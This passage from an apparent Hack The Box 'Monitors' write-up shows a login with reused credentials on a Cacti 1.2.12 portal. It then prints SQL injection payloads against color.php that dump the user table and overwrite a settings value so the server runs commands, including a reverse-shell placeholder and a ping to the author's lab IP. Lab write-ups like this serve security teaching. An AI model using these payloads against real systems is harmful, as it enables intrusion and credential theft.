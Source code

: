 

I used those `wpadmin:BestAdministrator@2020!` credentials to login onto the portal, after just changing `wpadmin` to `admin` I was successfull in logging in.

![image-20211019201010605](/image/hackthebox/monitors/image-20211019201010605.png)

Above image shows post logging-in page with `Version 1.2.12` indicated on the top right side, `searchsploit` shows this version is exploitable to `'filter' SQL Injection / Remote Code Execution`. Refering the `49810.py` for POC, It says that `/cacti/color.php?action=export&header=false&filter=1` is vulnerable, but you have to visit `/cacti/host.php?action=reindex` to trigger the payload.
The Payload is used in 3 chunks 
`')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='{rshell};'+where+name='path_php_binary';--+-`

Using first chunk I am able to get credentials of users, 

![image-20211019201039188](/image/hackthebox/monitors/image-20211019201039188.png)

Which means exploit Indeed this works in this machine but before doing that lets ping to our machine.
So, the payload for ping is 
`')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='ping+-n+2+10.10.14.31;'+where+name='path_php_binary';--+-`
